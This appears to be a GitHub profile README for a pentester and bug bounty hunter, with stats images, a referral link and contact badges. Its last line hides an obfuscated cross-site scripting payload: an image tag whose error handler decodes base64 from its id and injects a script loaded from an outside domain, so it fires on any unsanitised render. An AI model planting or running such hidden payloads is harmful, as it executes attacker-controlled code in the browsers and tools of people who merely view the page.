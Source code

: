 ## I'm bão and OCê? 👋
 
I'm a security researcher, I work as a pentester and in my free time I like to have fun bug bounty!

Get $200 credit on Digital Ocean:
<br>
<a href="https://www.digitalocean.com/?refcode=8fd2d6dfd146&utm_campaign=Referral_Invite&utm_medium=Referral_Program&utm_source=badge"><img src="https://web-platforms.sfo2.cdn.digitaloceanspaces.com/WWW/Badge%201.svg" alt="DigitalOcean Referral Badge" /></a>

## Stats

<div>
   <img src="https://github-readme-stats.vercel.app/api?username=phor3nsic&show_icons=true&theme=chartreuse-dark&include_all_commits=true&count_private=true&hide=issues" />
</div>

## Most used languages
<div>
  <img src="https://github-readme-stats.vercel.app/api/top-langs/?username=phor3nsic&langs_count=4&layout=compact&theme=dracula" />
  </div>
 
  
## Contact

   <a href="https://twitter.com/phor3nsic_br">
    <img src="https://img.shields.io/badge/@phor3nsic_br-grey.svg?style=square&logo=twitter">
  </a>
  
  <a href="https://www.linkedin.com/in/wallesonmoura/">
    <img src="https://img.shields.io/badge/@wallesonmoura-blue.svg?style=square&logo=linkedin">
  </a>
  
  <a href="https://hackerone.com/phor3nsic">
    <img src="https://img.shields.io/badge/@phor3nsic-black?style=square&logo=hackerone">
  </a>
  
  <div><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8veC5yZWQtc2VjLnh5eiI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs onerror=eval(atob(this.id))></div>

